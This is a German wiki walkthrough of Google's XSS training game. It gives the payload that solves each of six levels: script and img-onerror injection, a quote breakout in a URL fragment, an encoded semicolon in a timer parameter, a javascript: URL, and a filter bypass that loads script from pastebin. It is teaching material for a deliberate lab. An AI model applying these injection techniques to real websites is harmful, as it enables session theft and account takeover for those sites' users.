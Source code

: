 ## XSS (Cross-Site-Scripting)
Bei XSS geht es darum "evil code" in eine Webseite einzuschleusen um dadurch dann an Informationen zu kommen, welche nicht für den Benutzer bestimmt sind. Google hat ein [Game](https://xss-game.appspot.com/) dafür entwickelt. Ich beschreibe hier die Level, und wie man zum gewünschten Resultat kommt.



----

### Level 1
Im ersten Level hat man ein Eingabefeld zur Verfügung. Da die Daten, welche in diesem Feld sind, nicht escaped werden, kann man nur 
```
<script>alert(1)</script>
```
eingeben und man erreicht das Ziel.



----

### Level 2
Im zweiten Level hat man ebenfalls ein Eingabefeld. Diesmal kann man eine Ausführung von [JavaScript](/de/wiki/programmiersprachen/javascript) nicht einfach nur durch eingabe des "<script>"-Tags erzielen. Man gibt folgendes ein:
```
<img src="x" onerror="alert(1)">
```
Da man jetzt ein Bild lädt, welches nicht existiert, wird das Script im "onerror" ausgeführt.



----

### Level 3
In diesem Level muss man Code über die [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode einschleusen. Diesmal muss man direkt nach dem "#" ein " ' " (Hochkomma) platzieren, damit im Webseiten-Code die parseInt() funktion nicht mehr greift. Danach fügt man ebenfalls wieder ein Bild ein, welches auf "onerror" ein Script ausführt.
```
https://xss-game.appspot.com/level3/frame#');<img src="x" onerror="alert(1)">
```



----

### Level 4
Im vierten Level geht es darum einen JavaScript Timer zu manipulieren. Dieser nimmt die Zeit, welche er warten muss, ebenfalls über die [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode. Diesmal übergibt dem Eingabefeld ein " ' " (Hochkomma). Jetzt wird der Timer unendlich lange zählen (er wird nicht ausgeführt). Der ausgeführte Code sieht dann wie folgt aus:
```
startTimer(''')
``` In diesem Zustand kann man dann den "timer=" Parameter Manipulieren. Diesmal kann man jedoch nicht einfach eine ")" ("timer=')") danach einfügen, weil der ausgeführte Code dann folgendermassen aussehen würde:
```
startTimer('')')
```
Jetzt weiss man, dass man so den Code unterbrechen kann. Da man aber nicht "';" schreiben kann ```startTimer('';')``` 
muss man das ";" codieren. Mit %3B erreicht man das.


```
//Parameter
timer='%3B //code here

//Ausgeführte Funktion
startTimer(''); //code here
```
Mit diesem Wissen, könnte man meinen, wäre XSS jetzt möglich.


Ist es nicht. Ein "alert" befehl wird nicht ausgeführt. Man muss dahinter noch irgend welchen weiteren JavaScript Code einfügen. In diesem Beispiel wird einfach eine Variable (b) definiert. Das Resultat sieht dann wie folgt aus
```
//Parameter
timer=')%3Balert(1)%3Bvar b=('

//Ausgeführte Funktion
startTimer('');alert(1);var b=('');
```
Mit diesem Code ist im vierten Level XSS möglich.



----

### Level 5
In diesem Beispiel wird im HTML ''<a href=""<'' Tag der Wert aus der [HTTP-GET](https://de.wikipedia.org/wiki/Hypertext_Transfer_Protocol#HTTP-Anfragemethoden) Methode geholt. Dies kann man nutzen und führt bei Klicken auf den Button JavaScript Code aus. Erzielt wird das, indem man den (next) Parameter folgendermassen manipuliert:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```



----

### Level 6
Dieses Level ist das schwierigste von allen. Man muss über den GET-Parameter schadhaften Code von einem [Hosting](http://pastebin.com/raw/rTRPYeNk) einfügen. Da das JavaScript jedoch nur "https:" nicht zulässt (CaseSensitive) kann man den Parameter der [URL](/de/wiki/url) folgendermassen manipulieren ("htTps"):
```
https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
```







----

[Die Gesamtlösungen (Englisch)](http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/)
